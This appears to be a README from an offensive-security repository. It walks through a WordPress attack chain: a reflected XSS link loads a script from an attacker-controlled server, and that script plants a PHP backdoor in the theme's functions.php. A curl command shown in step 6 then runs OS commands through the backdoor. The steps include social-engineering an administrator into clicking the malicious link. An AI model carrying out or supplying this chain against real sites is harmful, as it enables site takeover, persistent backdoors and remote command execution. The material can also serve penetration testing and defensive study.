 # [RCE] Patch File

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [setup exploit] identify target WordPress theme

    *(enumerate installed WordPress themes installed on target site)*

2. [setup exploit] change payload variable values (`patchFileWP.js`)

    `phpBdURL` - URL of PHP backdoor to be installed on target site

    `themeName` - WordPress theme name to be patched

    `wpRoot` - path to WordPress installation on the target system (e.g. `"/path"`)

3. [setup exploit] setup web server (to serve the payload/backdoor)

    * **NOTE**: update/customize PHP backdoor in `bd.txt`

4. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.10/wp-login.php

5. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.10/test/rxss.php?q=<script src=http://192.168.5.15/patchFileWP.js></script>
    ```

    * **NOTES**:
      * `192.168.5.10` - target WordPress site
      * `192.168.5.15` - web server hosting payload

6. [post exploit] execute OS command

    ```
    curl "http://192.168.5.10/wp-content/themes/twentytwentyfour/functions.php?pass=test&cmd=id"
    ```

    * **NOTE**: endpoint URL constructed based on specified WordPress theme name + `functions.php`

7. [restore file] restore file via GUI

    *WordPress -> Tools -> Theme File Editor -> Select theme to edit - (select target theme from droplist) -> Select -> Theme Functions (functions.php) -> (remove backdoor) -> Update File*

## Screenshots

* **NOTE**: the screenshot covers steps 2 to 6 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/WordPress/PatchFile/screenshots/WordPress_-_patch_file_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/WordPress/PatchFile/screenshots/WordPress_-_patch_file_-_1-1.png">
    </picture>
  </kbd>
</p>
